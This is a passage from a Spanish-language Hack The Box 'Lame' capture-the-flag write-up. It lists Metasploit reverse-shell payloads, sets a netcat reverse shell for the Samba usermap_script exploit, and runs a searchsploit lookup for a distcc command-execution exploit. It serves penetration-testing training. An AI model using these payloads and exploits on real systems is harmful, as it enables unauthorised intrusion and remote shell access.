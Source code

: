    28  payload/cmd/unix/reverse_perl                                normal  No     Unix Command Shell, Reverse TCP (via Perl)
   29  payload/cmd/unix/reverse_perl_ssl                            normal  No     Unix Command Shell, Reverse TCP SSL (via perl)
   30  payload/cmd/unix/reverse_php_ssl                             normal  No     Unix Command Shell, Reverse TCP SSL (via php)
   31  payload/cmd/unix/reverse_python                              normal  No     Unix Command Shell, Reverse TCP (via Python)
   32  payload/cmd/unix/reverse_python_ssl                          normal  No     Unix Command Shell, Reverse TCP SSL (via python)
   33  payload/cmd/unix/reverse_r                                   normal  No     Unix Command Shell, Reverse TCP (via R)
   34  payload/cmd/unix/reverse_ruby                                normal  No     Unix Command Shell, Reverse TCP (via Ruby)
   35  payload/cmd/unix/reverse_ruby_ssl                            normal  No     Unix Command Shell, Reverse TCP SSL (via Ruby)
   36  payload/cmd/unix/reverse_socat_udp                           normal  No     Unix Command Shell, Reverse UDP (via socat)
   37  payload/cmd/unix/reverse_ssh                                 normal  No     Unix Command Shell, Reverse TCP SSH
   38  payload/cmd/unix/reverse_ssl_double_telnet                   normal  No     Unix Command Shell, Double Reverse TCP SSL (telnet)
   39  payload/cmd/unix/reverse_tclsh                               normal  No     Unix Command Shell, Reverse TCP (via Tclsh)
   40  payload/cmd/unix/reverse_zsh                                 normal  No     Unix Command Shell, Reverse TCP (via Zsh)
```

`msf6 exploit(multi/samba/usermap_script) > set payload/cmd/unix/reverse_netcat`

Y ahora a esperar la magia:

![](/assets/images/htb-writeup-lame/13.PNG)
  
Con muy poco seríamos root. Evitando hacer una escalada de privilegios manual.

## Vulnerabilidad en DISTCC (OSCP Style)

Finalmente mediante vulnerabilidad distcc, es realmente sencillo, mediante `searchsploit`, buscamos la vulnerabilidad de nuestro servicio.

`searchsploit distcc`
  
```
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                             |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
DistCC Daemon - Command Execution (Metasploit)                                                                                                                                                             | multiple/remote/9915.rb
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

```